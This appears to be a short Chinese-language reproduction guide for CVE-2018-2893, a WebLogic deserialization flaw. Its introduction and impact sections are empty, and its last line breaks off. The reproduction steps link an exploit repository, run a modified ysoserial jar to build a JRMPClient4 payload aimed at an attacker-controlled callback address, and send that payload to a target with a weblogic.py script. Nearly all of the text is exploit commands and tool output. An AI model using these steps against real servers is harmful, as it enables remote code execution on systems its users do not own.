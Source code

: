 CVE-2018-2893
=============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

<https://github.com/ianxtianxt/CVE-2018-2893>

### Step 1

`java -jar ysoserial-cve-2018-2893.jar`

    WHY SO SERIAL?
    Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
    Available payload types:
         Payload     Authors   Dependencies
         -------     -------   ------------
         JRMPClient  @mbechler
         JRMPClient2 
         JRMPClient3 
         JRMPClient4 
         Jdk7u21     @frohoff

### Step 2

`java -jar ysoserial-cve-2018-2893.jar  JRMPClient4 "<ip>:<port>" > poc4.ser`

### Step 3

python weblogic.py \<host\> \<port\> poc4.
